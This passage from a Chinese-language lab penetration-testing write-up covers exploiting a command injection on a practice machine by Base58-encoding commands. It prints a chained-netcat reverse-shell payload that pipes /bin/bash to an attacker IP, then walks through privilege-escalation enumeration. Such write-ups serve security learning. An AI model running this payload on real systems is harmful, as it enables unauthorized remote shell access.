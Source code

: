 当然我们想要执行的命令还需要进行 base58 进行加密
`(使用 CyberChef 里的To Base58 模块即可)`

![20220502_0248.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/456162a07270d66e5bc12eec4eaf3483.png)

将我们构造好的参数请求发送给服务端后发现服务端确实给我们返回了我们想要的 ls 命令的结果,所以结论是这边确实有一个命令注入漏洞

<font color="red" face=Monaco size=3>这时候我们就可以使用这个命令注入漏洞来获得shell  </font>
![20220502_0250.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/968bcb815f8d9de8108075ee74ac5ac9.png)

我们使用这个漏洞重复刚才的操作，从而进一步获取目标靶机的信息，如靶机内有哪些命令啊，是否有 nc ？ 等一系列操作来进一步深入我们的渗透.

发现目标靶机上存在 nc

这时我们可以测试一下目标靶机上的 nc 是否能够使用，是否支持 -e 参数...

发现目标靶机版本并不支持 `-e` 参数，我们还得使用 NC串联的方式获得shell
这边就不再进行演示了

*具体的代码：*

```bash
&& nc 10.0.2.7 3333 | /bin/bash | nc 10.0.2.7 4444 
```
并对其进行Base58加密之后提交该payload

发现在攻击机上成功获得靶机的基础shell

![20220502_0327.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/f74700dae26ee86ed2890b5fbe1f44a7.png)

## 框架漏洞利用 

由于我们是通过 web 服务获得的 shell 那么我们当前shell的工作目录应该就是当前web应用存放的路径

我们查看 `/etc/passwd` 这个文件发现有imera 这个账户，我们访问该账户的家目录，发现有user.txt 很显然这个文件很有可能就是第一个 flag文件，而我们尝试查看该文件的内容，发现我们并不能查看该文件的内容，我们查看一下该文件的权限，发现该文件只有 imera 用户才有读写权限，当下，我们的目的就已经很明确了，那就是进行本地提权了.

![20220502_0331.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/c5952cd7e4596a49f15f4ae672fd1b90.png)

我们现在查看一下该主机的内核版本,发现 4.15的版本内核漏洞提权的漏洞并没有

![20220502_0336.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/659c6bd9dfea61fd5e1f71139a93819b.png)

寻找suid方式提权一无所获

使用 `sudo -l` 一无所获

![20220502_0338.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/a344d9a85ce3465bb23562ba894c299a.png)


到这边我们其实已经遇到了渗透测试的瓶颈，我们这时并没有一个好的方式能够在本地提权

> 而当我们进行渗透测试时，没有思路，那说明我们信息收集还没到位

只有当我们信息收集得足够多时,我们才会有清晰的渗透思路,而我们信息收集得不多时，我们可能很难会有一个思路去攻破目标


所以我就对这台靶机进行了大量的信息收集和目录的扫描,发现该靶机在该web应用的根目录下有一个突破口
